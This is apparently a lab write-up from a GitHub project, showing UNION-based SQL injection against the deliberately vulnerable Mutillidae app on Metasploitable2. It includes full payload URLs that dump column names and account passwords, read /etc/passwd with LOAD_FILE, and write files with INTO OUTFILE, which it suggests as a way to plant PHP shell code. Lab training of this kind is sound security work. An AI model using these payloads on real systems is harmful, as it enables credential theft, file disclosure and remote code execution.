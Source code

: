 ![244885899-68ccd33b-a98d-4ff6-8c19-57e63c2724d0](https://github.com/prithviraj5703/sqlinjection/assets/121418418/93938e13-ce4b-42f4-ad6e-fa424526b9ad)

The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

![244885902-c820f87a-30cb-485b-b423-f6fd0e67c96e](https://github.com/prithviraj5703/sqlinjection/assets/121418418/da8cc123-93fe-4f34-8616-e55f453ce843)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details

![244885902-c820f87a-30cb-485b-b423-f6fd0e67c96e](https://github.com/prithviraj5703/sqlinjection/assets/121418418/68902440-2af2-4a38-b9ed-eb52a735fe99)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![244885903-f7dd79fb-c11c-41f3-8019-06685e9cd759](https://github.com/prithviraj5703/sqlinjection/assets/121418418/42c5fdf8-8521-4609-9067-e55df381f746)

### Reading and writing files on the web-server

We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

![244885909-13f4a113-06fc-4d62-a8ec-6525c4ec1343](https://github.com/prithviraj5703/sqlinjection/assets/121418418/1571c9ec-354d-4b9f-a4e7-1584e0a4b9d8)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
